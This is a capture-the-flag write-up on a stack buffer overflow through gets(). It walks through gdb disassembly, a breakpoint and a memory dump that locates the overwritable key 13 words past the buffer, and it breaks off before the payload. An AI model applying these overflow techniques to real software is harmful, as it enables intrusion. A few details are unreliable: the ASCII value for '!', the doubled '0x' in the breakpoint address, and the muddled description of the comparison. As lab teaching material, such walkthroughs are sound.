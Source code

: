 We want to target the `key == 0xcafebabe` comparison, in which `key` was previously defined in the code as `0xdeadbeef`; since it is referenced after `gets()` fills the `overflowme` buffer without a proper length check, we can use that to mangle memory and force the right side of the comparison to be equal to `key`.

With `(gdb) disas func` we can find the address of that comparison:

```
Dump of assembler code for function func:
   0x565561cd <+0>:	push   %ebp
   0x565561ce <+1>:	mov    %esp,%ebp
   0x565561d0 <+3>:	push   %ebx
   0x565561d1 <+4>:	sub    $0x34,%esp
   0x565561d4 <+7>:	call   0x565560d0 <__x86.get_pc_thunk.bx>
   0x565561d9 <+12>:	add    $0x2e27,%ebx
   0x565561df <+18>:	mov    %gs:0x14,%eax
   0x565561e5 <+24>:	mov    %eax,-0xc(%ebp)
   0x565561e8 <+27>:	xor    %eax,%eax
   0x565561ea <+29>:	sub    $0xc,%esp
   0x565561ed <+32>:	lea    -0x1ff8(%ebx),%eax
   0x565561f3 <+38>:	push   %eax
   0x565561f4 <+39>:	call   0x56556030 <printf@plt>
   0x565561f9 <+44>:	add    $0x10,%esp
   0x565561fc <+47>:	sub    $0xc,%esp
   0x565561ff <+50>:	lea    -0x2c(%ebp),%eax
   0x56556202 <+53>:	push   %eax
   0x56556203 <+54>:	call   0x56556040 <gets@plt>
   0x56556208 <+59>:	add    $0x10,%esp
   0x5655620b <+62>:	cmpl   $0xcafebabe,0x8(%ebp)    // <== Here's the key
```

Once we've found the address of the comparison, let's inspect further:

+ Set the breakpoint: `(gdb) break *0x0x5655620b`
+ Continue execution: `(gdb) c`
+ Feed some recognizable chars to the buffer (`!` is, for example, 0x41 in ASCII)
+ Check that we're inspecting the right buffer: `p overflowme`
+ Inspect the memory as hex words: `x/16x overflowme`

I've fed a bunch of `!`s as input, so my memory will contain easily spottable `0x21`s - let's view 16 hex words from the `overflowme` variable on:

```
(gdb) x/16x overflowme
0xffffce9c:	0x21212121	0x21212121	0x21212121	0x21212121
0xffffceac:	0x21212121	0x21212121	0xf7f8ee00	0x00000000
0xffffcebc:	0x7029cb00	0xf7f8f3bc	0x00000000	0xffffcee8
0xffffcecc:	0x56556279	0xdeadbeef	0xffffcf94	0xffffcf9c
```

Here they are! Notice anything else? The `0xdeadbeef` key used for the comparison is located 13 words _(13 * 4 bytes)_ after the start of the `overflowme` buffer, let's see if we can overwrite it. _Note: Python helps us with quick strings manipulations, but v3 doesn't handle hex strings as v2 did so I've used `echo -e` as a quick & dirty workaround._
